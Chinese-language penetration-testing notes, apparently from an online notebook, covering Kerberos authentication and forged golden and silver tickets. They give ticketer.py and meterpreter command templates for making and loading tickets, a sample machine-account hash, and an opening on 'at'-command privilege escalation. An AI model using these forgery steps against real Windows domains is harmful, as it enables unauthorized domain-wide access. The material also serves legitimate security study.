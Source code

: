 使用win-7$的机器账户的hash`96dd976cc094ca1ddb2f06476fb61eb6`伪造`cifs/win-7`的服务票据，使用票据的用户是根本不存在的qqq或者存在的任意用户。

```bash
ticketer.py -nthash 服务账号hash -domain-sid 域SID -domain 域名 -spn 目标服务 用户名
```

# kerberos认证过程
第一阶段客户端将自己的用户名、IP地址、时间戳发送给AS，AS访问AD是否存在该用户名，存在则返回TGT和与TGS通信的CT_SK

第二阶段客户端将CT_SK、要访问的服务（明文）、TGT发送给TGS，TGS返回ST和与服务端通信的CS_SK

第三阶段客户端将ST和CS_SK发送给服务端，服务端认证通过后完成认证

名称解释：

+ AS：Authentication service（认证服务器）
+ AD：Account Database（用户数据库）
+ TGS：Ticket Granting Service（票据授予服务）
+ TGT：Ticket Granting Ticket（票证授予票证）----黄金票据，可以访问任意服务
+ ST：Server Ticket（服务票据）----白银票据，只能访问指定服务
+ CT_SK：Client-TGS SessionKey（客户端-TGS会话密钥）
+ CS_SK：Client-Server SessionKey（客户端-服务端会话密钥）

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751527978286-79dcad55-7bea-40d6-a07c-b69d1f25a20c.png)



# 四种票据伪造
## 黄金票据
### meterpreter伪造
制作票据

```bash
golden_ticket_create -d <域名> -u <任意用户名> -s <Domain SID> -k <krbtgt NTLMHash> -t <ticket本地存储路径如:/tmp/krbtgt.ticket>
```

加载票据

```bash
kerberos_ticket_use [票据路径]
```

## 白银票据
## 钻石票据
## 蓝宝石票据
# 提权
## at命令
**在Windows2000、Windows 2003、Windows XP 这三类系统中**，我们可以使用at命令将权限提升至 system权限。 
